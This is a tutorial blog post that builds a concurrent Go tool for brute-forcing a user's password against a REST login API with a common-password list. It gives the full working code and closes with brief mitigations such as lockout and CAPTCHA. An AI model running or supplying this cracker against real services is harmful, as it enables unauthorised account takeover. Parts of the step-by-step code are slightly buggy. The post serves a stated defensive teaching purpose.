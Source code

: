 ```yaml
---
title: "Creating a Brute Force REST API Password Cracker"
date: 2018-06-24T07:49:00-04:00
draft: false
keywords:
- golang
- security
- password cracker
---
```


# Golang Password Cracker

### Disclaimer
All views and opinions expressed in this document are my own and not indicative of my employer's viewpoints in any regard. Furthermore, this exercise is intended to demonstrate the need for more robust passwords internally. The created program should not be used for anything malicious.

### Password Security & Best Practices
[Krebs Take](https://krebsonsecurity.com/password-dos-and-donts/)

I'm sure we've all seen user accounts with shoddy passwords, to demonstrate how easy it is to gain access to these accounts let's see if we can brute force their passwords.

First things first, we need a password list, so let's grab [one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)

Now we need to build a program that makes a POST request to a JSON REST API. Ideally, we would pass in the username we want to target, and the url of the application so we can test out multiple platforms.

To build this program, let's use Golang because it's simple, fast, and excels in concurrency which will enable to make all the requests in parallel.

### Steps
1. Download Golang [mac](https://golang.org/doc/install?download=go1.10.1.darwin-amd64.pkg)
1. Create a folder in your golang directory (wherever you specified it) called `golang-brute-password`
1. Move the password file to the folder, call it `passwords.txt`
1. Create file main.go with the following
   ``` 
   package main

   func main(){
      fmt.Println("HELLO WORLD")
   }
   ```
1. run `go run main.go` -> you should see "HELLO WORLD" in the console
1. Let's create a function to read in the passwords and return an array of passwords. This should do:

   ```
      // readInPasswords, reads in the passwords file and returns a slice of strings (array of strings)
      func readInPasswords(passwordFile string) []string {
         b, err := ioutil.ReadFile(passwordFile) // just pass the file name
         if err != nil {
            fmt.Println(err)
         }
         str := string(b) // convert content to a 'string'

         return strings.Split(str, "\n")
      }
   ```
1. Now we need a function to actually make the POST request to the specified url. Try this:
   ```

   // postToURL
   // Succeeded = true if res.status == 200
   func postToURL(url string, username string, password string) (succeeded bool) {
      fmt.Println("password: ", password)
      values := map[string]string{"username": username, "email": username, "password": password}

      jsonValue, _ := json.Marshal(values)

      resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonValue))
      if err != nil {
         fmt.Println("Error occured: ", err)
         return false
      }
      defer resp.Body.Close()
      fmt.Println("Response status: ", resp.Status)
      var body interface{}
      json.NewDecoder(resp.Body).Decode(&body)
      fmt.Println(body)
      return resp.Status == "200"
   }

   ```
1. Now let's grab the url and username to target from the program arguments

   ```
   if len(os.Args) != 3 {
         log.Fatal("Please url to post and username")
      }
      url := os.Args[1]
      username := os.Args[2]
      passwords := readInPasswords("passwords.txt")
   ```
1. Now let's use a simple for loop to make the requests
   ```

      // one after another
      // for _, password := range passwords {
      // 	fmt.Println("password is: ", password)

      // 	if postToURL(url, username, password) {
      // 		fmt.Println("password is: ", password)
      // 	}
      // }
   ```
1. That's slow as hell, let's do it concurrently
   ```
      var wg sync.WaitGroup
      wg.Add(len(passwords))
      foundPassword := ""
      for _, password := range passwords {
         go func(password string) {
            defer wg.Done()
            fmt.Println("password is: ", password)
            if postToURL(url, username, password) {
               foundPassword = password
               fmt.Println("password is: ", password)
            }
         }(password)
      }

      wg.Wait() // wait until the for loop finishes
      fmt.Println("found password is: ", foundPassword)
   ```

1. Now we should be able to iterate through the password list in under 4-5 seconds... Wow..
1. How could we fix this and prevent users from weak passwords from being vulnerable to this attack?
      - Lock account after 5 failed login attempts. Need to contact an admin or re-verify your email.
      - Require the user fill out a Recaptcha on login.
      - Enforce strict password requirements. 8 characters + and 2 complexity cases
1. By processing each request or rate limiting the client, a server makes itself exceptionally vulnerable to DDOS. For those who don't know Krebs did a great writeup on DDOS [here](https://krebsonsecurity.com/tag/ddos/).

# How ya'll enjoyed the talk 

## Ps. our final program should look like this:

```
package main

import (
	"bytes"
	"encoding/json"
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"os"
	"strings"
	"sync"
)

/*Main
 * Requires the url, port, and username to be sent as environment variables
 * Makes a POST request to the url with fields username, email, and password
 * Username and email values are set to the value provided in the program argument
 * Password values are taken from the passwords.txt file
 * All requests are JSON content type
 */
func main() {
	if len(os.Args) != 3 {
		log.Fatal("Please provide url and username")
	}
	url := os.Args[1]
	username := os.Args[2]
	passwords := readInPasswords("passwords.txt")

	// multithreaded solution
	var wg sync.WaitGroup
	wg.Add(len(passwords))
	foundPassword := ""
	for _, password := range passwords {
		go func(password string) {
			defer wg.Done()
			if postToURL(url, username, password) {
				foundPassword = password
			}
		}(password)
	}

	wg.Wait() // wait until the for loop finishes
	fmt.Println("found password is: ", foundPassword)
}

// readInPasswords, reads in the passwords file and returns a slice of strings (array of strings)
func readInPasswords(passwordFile string) []string {
	b, err := ioutil.ReadFile(passwordFile) // just pass the file name
	if err != nil {
		fmt.Println(err)
	}
	str := string(b) // convert content to a 'string'

	return strings.Split(str, "\n")
}

// postToURL
// Succeeded = true if res.status == 200
func postToURL(url string, username string, password string) (succeeded bool) {
	values := map[string]string{"username": username, "email": username, "password": password}

	jsonValue, _ := json.Marshal(values)

	resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonValue))
	if err != nil {
		fmt.Println("Error occured: ", err)
		return false
	}
	defer resp.Body.Close()
	if resp.StatusCode == 200 {
		fmt.Println("Response status: ", resp.Status)
		var body interface{}
		json.NewDecoder(resp.Body).Decode(&body)
		fmt.Println(body)
	}
	return resp.StatusCode == 200
}

```

